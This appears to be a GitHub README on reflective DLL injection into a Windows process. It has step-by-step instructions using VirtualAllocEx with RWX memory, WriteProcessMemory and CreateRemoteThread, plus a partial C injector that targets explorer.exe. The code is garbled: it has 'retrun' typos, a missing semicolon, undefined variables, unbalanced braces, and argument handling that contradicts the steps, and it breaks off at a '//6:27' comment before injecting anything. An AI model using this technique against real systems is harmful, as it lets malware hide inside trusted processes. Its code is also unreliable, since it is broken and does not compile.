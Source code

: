 # Reflective Injection

**Reflective injection is a technique that allows an attacker to  inject a DLL into a target process from memory rather than disk.** 

## Overview
Here we will have 2 processes:
- Target process(host process)
- Injector process
- and a DLL.
Inside a DLL there will be a exported function. Name of the exported function will be **ReflectiveLoader** or it can be whatever we want. 

In brief; injector process will write the dll in the address space of target process and then it will call the exported function(ReflectiveLoader) of the DLL. Then the exported function will load itself in the target address space.

## Steps to make injector process:
1. Take command line arguments
	- pid of target process **argv[1]**
	- absolute path of the dll to be injected **argv[2]**
	- name of the exported function of dll that will load the itself(dll) **argv[3]**
2. Using the *absolute path of DLL* open the dll with required access right and read it in heap memory of injector process
3. traverse the dll file copied into heap to find out the offset of the exported function(argv[3]).
4. save the offset of exported function in a variable. **If not able to find the offset then free the allocated heap memory and exit the program**.
5. else  
6. Using the *pid* open the target process with the required access rights
8. Using WIN API *VirtualAllocEx()* allocate a READ_WRITE_EXECUTABLE region in the target process.
9. using WIN API *WriteProcessMemory()* write the memory allocated in STEP8 with the dll present in the heap of injector process
10. VirtualAllocEx() function will save the first address of allocated memory space in a variable. After STEP9 that first address will be the base address of the dll.
11. adding up the base address of dll and the offset of exported function we will get the virtual address of exported function
12. This VA of exported function will be given to WIN API CreateRemoteThread() as the functionality to be executed the the thread.
  	
        
		DWORD ThreadId;
		HANDLE hThread = CreateRemoteThread(hProcess, NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)VAOfExportedFunction, NULL, (DWORD)NULL, &dwThreadId);
        	if (!hThread) {
        		printf("Error in creating thread");
        		return 1;
    		}
	    	WaitForSingleObject(hThread, -1);	

13.with this the injecter code will be completed

## code

    #include <stdio.h>
    #include <Windows.h>
    #include <string.h>
    
    typedef struct _PE_INFO {
      LPVOID base;
      BOOL Reloc; //If base relocation is needed
      LPVOID Get_Proc; //Address of GetProcAddress function 
      LPVOID Load_Dll; //Address of LoadLibraryA
    }PE_INFO, * LPE_INFO;
    
    
    // This function gives us the data of Target Process using which we will read its headers
    DWORD ReadTargetProcessMemory(char * ProcessName) {
        HANDLE hProcess;
        DWORD fileSize;
        LPVOID fileData = NULL;
        DWORD byteRead = NULL
        
        hProcess = CreateFileA(ProcessName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	    if (file == INVALID_HANDLE_VALUE) {
            printf("Could not read file");
        }
        
        fileSize = GetFileSize(hProcess, NULL);
	    fileData = HeapAlloc(GetProcessHeap(), 0, fileSize);
        if (!fileData) {
            printf("Failed to allocate heap memory");
        }
        
        ReadFile(hProcess, fileData, fileSize, &bytesRead, NULL);
        
        return fileData;
    }
    
    
    // This function will find the pid of the target process. Name of the target process will be given by command line argument
    HANDLE FindProcess(const char* processName) {
      HANDLE hSnapshot, hProcess; 
      PROCESSENTRY32 pe;
      pe.dwSize = sizeof(pe);
      BOOL found = 0;
      
      if ((hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)) == INVALID_HANDLE_VALUE)
        return 1;
      }
    
      if(!Process32First(hSnapshot, &pe)) {
        return 1;
      }
      
      do {
        if (!strcmp(pe.szExeFile , processName)) {
          found = 1;
          break;
        }
      } while (Process32Next(hSnapshot, &pe));
      
      if (!found) {
        printf("Processnot found\n");
        retrun 1;
      }
      
      if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pe.th32ProcessID)) == NULL) {    //take a look we are asing foe all access.
                                                                                          //This can give error for someother process
        printf("Failed to open process\n");
        return 1;
      }
      
      else 
      retrun hProcess;
    }
    
    
    int main(int argc, char* argv[]) {
   
      if (argc != 2){
        printf("usage: <DLL path>");
      }
      
      HANDLE hProcess;
      DWORD base;
      PIMAGE_DOS_HEADER dos;
      PIMAGE_NT_HEADERS nt;  
      PIMAGE_SECTION_HEADER sec;
      
      base = ReadTargetProcessMemory(argv[1]);
      if (!base) {
        printf("Failed to read file");
        retrun 1;
      }
      
      dos = (PIMAGE_DOS_HEADER)base;
      if (dos->e_magic != 23117) {
        printf("Invalid file");
        retrun 1;
      }
      
      nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
      sec = (PIMAGE_SECTION_HEADER)((LPVOID)nt +24 + nt->FileHeader.SizeOfOptionalHeader);
      
      if (nt->OptionalHeader.Magic != 523) {
        printf("This is not a 64-bit PE file");
        retrun 1;
      }
      
      hProcess = FindProcess("explorer.exe");
      if (!hProcess) {
        printf("Failed to open process");
        retrun 1;
      }
      
      //6:27
      
    return 0;
    }
